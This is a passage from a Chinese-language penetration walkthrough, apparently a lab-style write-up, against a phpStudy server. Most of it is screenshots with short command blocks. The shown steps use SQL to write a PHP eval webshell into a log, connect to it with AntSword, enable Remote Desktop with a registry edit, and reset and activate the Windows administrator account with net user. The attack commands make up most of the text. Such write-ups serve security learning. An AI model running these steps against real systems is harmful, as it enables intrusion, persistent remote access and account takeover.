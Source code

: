 ![](https://s3.hedgedoc.org/demo/uploads/6d05c1f6-b552-44f4-8dad-186beee7bf71.png)


**再次查询：**

![](https://s3.hedgedoc.org/demo/uploads/9f752d18-20b3-46ad-a1d7-aac856f3f504.png)


**向日志内写入一句话木马：**

```sql
select '<?php eval($_POST[1]); ?>';
```

![](https://s3.hedgedoc.org/demo/uploads/d8024002-4eb4-4dbc-9bfc-22f1fe0963de.png)


phpstudy探针页面下方有回显：

![](https://s3.hedgedoc.org/demo/uploads/8ff9e3e9-df37-4ff6-a51a-1e53b33f5862.png)


**使用蚁剑连接：**

![](https://s3.hedgedoc.org/demo/uploads/c993b9de-b72e-4220-98ae-cc39c9b989e1.png)


**查看用户和ip：**
![](https://s3.hedgedoc.org/demo/uploads/dc3c684c-2477-4a76-b66f-09fb024374ca.png)



![](https://s3.hedgedoc.org/demo/uploads/be63aac0-0a3d-4cd4-b8f2-29a61eae1404.png)


**开启3389端口，准备远程桌面登录：**

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](https://s3.hedgedoc.org/demo/uploads/c99da025-de2d-4488-ae69-a35ecca5aabd.png)


![](https://s3.hedgedoc.org/demo/uploads/b376ce05-7af2-4866-881b-169167493908.png)


需要密码，可以直接修改：

![](https://s3.hedgedoc.org/demo/uploads/c62a95fd-145a-436c-bea5-4d3b394e2e9e.png)


```sh
net user administrator admin@123 \\更改密码

net user administrator /active:yes \\激活密码
```

![](https://s3.hedgedoc.org/demo/uploads/8d444ddb-0c0b-40df-8a0e-bc77d022f66e.png)
